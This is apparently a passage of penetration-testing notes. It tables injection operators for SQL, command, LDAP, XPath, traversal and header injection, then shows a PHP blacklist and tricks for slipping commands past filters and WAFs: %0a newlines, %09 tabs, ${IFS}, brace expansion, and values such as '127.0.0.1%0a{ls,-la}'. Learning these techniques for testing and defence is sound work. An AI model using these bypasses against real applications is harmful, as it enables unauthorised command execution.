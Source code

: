 
| **Injection Type**                      | **Operators**                                     |
| --------------------------------------- | ------------------------------------------------- |
| SQL Injection                           | `'` `,` `;` `--` `/* */`                          |
| Command Injection                       | `;` `&&`                                          |
| LDAP Injection                          | `*` `(` `)` `&` `\|`                              |
| XPath Injection                         | `'` `or` `and` `not` `substring` `concat` `count` |
| OS Command Injection                    | `;` `&` `\|`                                      |
| Code Injection                          | `'` `;` `--` `/* */` `$()` `${}` `#{}` `%{}` `^`  |
| Directory Traversal/File Path Traversal | `../` `..\\` `%00`                                |
| Object Injection                        | `;` `&` `\|`                                      |
| XQuery Injection                        | `'` `;` `--` `/* */`                              |
| Shellcode Injection                     | `\x` `\u` `%u` `%n`                               |
| Header Injection                        | `\n` `\r\n` `\t` `%0d` `%0a` `%09`                |

## Bypassing techniques for filters and WAFs

A web application may have a list of blacklisted characters, and if the command contains them, it would deny the request. The `PHP` code may look something like the following:

```php
$blacklist = ['&', '|', ';', ...SNIP...];
foreach ($blacklist as $character) {
    if (strpos($_POST['ip'], $character) !== false) {
        echo "Invalid input";
    }
}
```

### Common tricks

```bash
# Use url-encoded encode. new line \n would be
%0a

# If typical commands such as 'whoami' are being filtered, include some other characters that are going to be removed to escape the pattern. Example
whoam'i

# If blank spaces are removed, use different types of spaces. The url-encoded expression for TAB would be 
%09

# Using the ($IFS) Linux Environment Variable. If we use `${IFS}` where the spaces should be, the variable should be automatically replaced with a space, and our command should work. 
# Example: 
# 127.0.0.1%0a${IFS}

# We can use the `Bash Brace Expansion` feature, which automatically adds spaces between arguments wrapped between braces, as follows:
{ls,-la}
# Example
# 127.0.0.1%0a{ls,-la}
```
